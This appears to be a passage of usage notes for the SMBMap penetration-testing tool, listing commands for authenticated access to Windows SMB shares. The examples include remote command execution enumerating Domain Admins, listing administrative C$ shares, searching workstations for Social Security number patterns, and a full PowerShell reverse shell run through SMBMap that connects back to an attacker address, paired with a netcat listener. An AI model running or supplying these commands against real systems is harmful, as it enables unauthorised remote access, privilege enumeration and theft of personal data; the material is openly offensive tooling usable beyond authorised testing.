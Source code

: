 ```sh
firefox http://localhost:8000
```


# SMBMap
Default Output:
```sh
./smbmap.py -H 192.168.12.123 -u administrator -p asdf1234
```

Command execution:
```sh
python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -H 192.168.2.50
```

Non recursive path listing (ls):
```sh
python smbmap.py -H 172.16.0.24 -u Administrator -p 'changeMe' -r 'C$\Users'
```

File Content Searching:
```sh
python smbmap.py --host-file ~/Desktop/smb-workstation-sml.txt -u NopSec -p 'NopSec1234!' -d widgetworld -F '[1-9][0-9][0-9]-[0-9][0-9]-[0-9][0-9][0-9][0-9]'
```

Drive Listing:
```sh
python smbmap.py -H 192.168.1.24 -u Administrator -p 'R33nisP!nckle' -L
```

Nifty Shell:
```sh
python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -H 10.10.1.10 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""10.10.1.2""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
```

Attackers Netcat Listener:
```
nc -l 4445
```

